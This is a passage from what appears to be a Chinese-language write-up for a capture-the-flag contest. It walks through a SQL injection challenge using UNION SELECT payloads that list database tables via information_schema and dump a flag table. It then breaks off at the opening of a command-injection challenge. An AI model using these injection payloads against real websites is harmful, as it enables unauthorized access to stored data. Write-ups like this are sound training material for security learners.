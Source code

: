 > 此术为破解玄机阁禁制的无上秘法，需精通"SELECT、UNION、FROM"三大真言精髓。相传此术修至大成，可洞悉万物本源，破解一切禁制。然修习此术需极高悟性，千年来唯xt长老等寥寥数人掌握。

根据提示，我们这次要用到"SELECT、UNION、FROM"。先尝试套公式拿到存储用户的表的列数，和所有表的名称

```sql
# 先试这个，假设只有一列
-1' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
# 两列
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
# 有回显了，但是顺序反了
-1' union select group_concat(table_name),1 from information_schema.tables where table_schema=database()#
```

![image.png](../../assets/images/moectf2025wp/image_40.png)

经过尝试，我们得到这个数据库存在 flag, users 两张表，且 users 表具有两列数据。我们要找的 Flag 应该就在 flag 表里面。于是，大胆猜测 flag 表只有一列，写出最终注入：

```sql
-1' union select *,1 from flag;#
```

![image.png](../../assets/images/moectf2025wp/image_41.png)

拿到 Flag。

---

## [截断命令RCE] 09 第九章 星墟禁制·天机问路

非常神秘一道题，不给提示。先试试他给的例子，反正不吃亏。
